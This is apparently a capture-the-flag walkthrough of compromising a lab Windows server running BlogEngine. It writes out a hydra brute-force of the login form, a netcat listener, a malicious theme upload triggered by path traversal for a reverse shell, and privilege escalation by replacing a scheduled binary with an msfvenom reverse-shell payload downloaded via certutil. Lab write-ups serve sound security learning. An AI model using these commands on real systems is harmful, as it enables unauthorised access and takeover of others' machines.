

There is a login page:


Now using burp to intercept


It is a post request so we can use hydra now to bruteforce.

Then using hydra to bruteforce:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.110.156 http-post-form "/Account/login.aspx:__VIEWSTATE=Gcy%2FjNJ7ap0W2Uiv5A5KnEzh5Gtdf6rDAKFo3y82ON1x6S7mN94wlfL1%2F8KB5HNCWW%2FbfXfwf9%2BDZUCvJxmXJNj17sV%2BX%2Bp9oErdztjeAG%2BVxODJOmbQN%2BZXsCajG9BKxi6uEZghxyVyqMQxKbBNp46T4tAJk48%2BJWf9D9uPD%2BmQFFeC&__EVENTVALIDATION=GHu5S1A0mHw9EQ7ulT5cP1jPOPcVMg2PQWDd8jnNoNklNY0oHZDvrlLbQ7wv0N6QlPhctU%2Fsu%2BYzsfEwEzJUMyFp1E2BUxxLnTvOyStah1yx9K7lpAVCOBZ4IM%2Fa%2BsdFqb7vb7tGhY35%2BEj%2FgcQsv8VHQZE%2F%2B0eP%2FQNzZyOjXKD18vkE&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```


We have a password.

Now we can login and check version in about section:

Now we can search for exploits:
```
searchsploit blogengine
```


Now we can use this exploit:
Run a listener:
```
sudo rlwrap nc -nlvp 8000
```

Go to  http://10.11.103.226/admin/app/editor/editpost.cshtml
Now upload the file as PostView.ascx:


Now visit http://10.10.248.167/?theme=../../App_Data/files
We get a shell back:


We are `iis apppool\blog`
Running winpeas:

`C:\Program Files (x86)\SystemScheduler` is suspicious.\


In Events:

There is a log.

Viewing the logs


Message.exe seems to be running repeatedly.


Now crafting a msfvenom payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.103.226 LPORT=8080 -f exe -o Message.exe
```
Now we can rename the original binary to Message.bak and transfer our new binary:
```
ren Message.exe Message.bak
```
```
certutil -urlcache -f http://10.11.103.226:/Message.exe Message.exe
```

Now run a listener:
```
sudo rlwrap nc -nlvp 8080
```

We are administrator.

